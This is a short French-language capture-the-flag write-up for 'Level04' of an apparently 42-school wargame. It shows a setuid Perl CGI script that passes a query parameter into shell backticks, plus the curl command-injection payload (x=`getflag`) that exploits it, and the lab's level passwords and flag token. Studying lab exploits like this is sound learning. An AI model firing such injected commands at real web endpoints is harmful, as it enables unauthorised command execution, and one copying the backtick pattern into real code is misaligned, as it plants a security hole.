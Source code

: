 # Level04

> login:password -> *`level04:qi0maab88jeaj46qoumi7maus`*
```
:~$ su level04
Password:qi0maab88jeaj46qoumi7maus
```
---

```
:~$ pwd
/home/user/level04
```

```
:~$ ls -la
...
-rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl
...
```

Le Home posséde un script perl level04.pl

```
:~$ cat level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

Le script affiche la valeur du parametre "x" sur le port `:4747`.
On peut donc injecter un subshell pour que son echo affiche le resultat

```
:~$ curl localhost:4747?x=toto
toto

:~$ curl 'localhost?x=`getflag`'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

Le flag nous permet de se connecter au level05
`level05:ne2searoevaevoem4ov4ar8ap`

> Tools:
> - https://unix.stackexchange.com/questions/138463/do-parentheses-really-put-the-command-in-a-subshell